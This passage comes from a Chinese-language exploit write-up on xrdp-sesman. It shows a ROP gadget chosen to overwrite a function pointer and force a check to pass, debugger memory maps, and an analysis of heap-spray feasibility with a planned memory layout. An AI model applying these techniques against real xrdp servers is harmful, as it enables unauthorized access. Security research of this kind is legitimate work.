 ```
    }
 
    return 0;
}
```  
  
  
由于我们完全不关心该函数的功能逻辑，笔者在构造 exp 时候打算令其直接恒真：  
```
0x0000000000405464 : or al, 0x89 ; ret
```  
  
  
注意到程序有这么一个 gadget 可以利用，因此我们将该函数指针覆盖为该 gadget 时即可绕过检查。  
###   
### 堆喷的可能性  
  
  
您可能会注意到，每次初始化输入缓冲区和输出缓冲区时，都建立了 0x2000 大小的缓冲区，这个值并不小，那么如果多建立几个连接，是否就能够像堆喷那样完成利用呢？  
```
/**
 * Maximum number of short-lived connections to sesman
 *
 * At the moment, all connections to sesman are short-lived. This may change
 * in the future
 */
#define MAX_SHORT_LIVED_CONNECTIONS 16
```  
  
  
可以看见，此处的 MAX_SHORT_LIVED_CONNECTIONS 较小，它只允许我们最多保持 16 个连接，生成的堆内存如下：  
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x403000 r--p     3000 0      /usr/local/sbin/xrdp-sesman
          0x403000           0x40b000 r-xp     8000 3000   /usr/local/sbin/xrdp-sesman
          0x40b000           0x40f000 r--p     4000 b000   /usr/local/sbin/xrdp-sesman
          0x40f000           0x410000 r--p     1000 e000   /usr/local/sbin/xrdp-sesman
          0x410000           0x411000 rw-p     1000 f000   /usr/local/sbin/xrdp-sesman
          0x65b000           0x6a7000 rw-p    4c000 0      [heap]
          0x6a7000           0x6c8000 rw-p    21000 0      [heap]
```  
  
  
总共的堆内存大小为 0x6D000，考虑到堆一开始就有一部分被用于其他用途，笔者最终算出来的堆内存可用大小最多为 0x5b0b8，而堆的地址大概在 0x0300000~0x3500000  
> 这个数值是笔者在调试过程中根据印象猜出来的，实际还是要以源代码为准，但笔者在这里想要表达的意思是，强行堆喷的成功率不高，粗算一下大概是 0.7112884521484375%(原神单抽一个五星的感觉)  
  
  
  
  
但其实还不只是如此，因为强行堆喷需要布置的内容是参数+地址，大致结构如下：  
```
args_str1 | args_str2 | args_str1_addr | args_str2_addr
```  
  
  
而您需要保证的是：  
- self->in_s 能够指向 args_str1_addr-8  
  
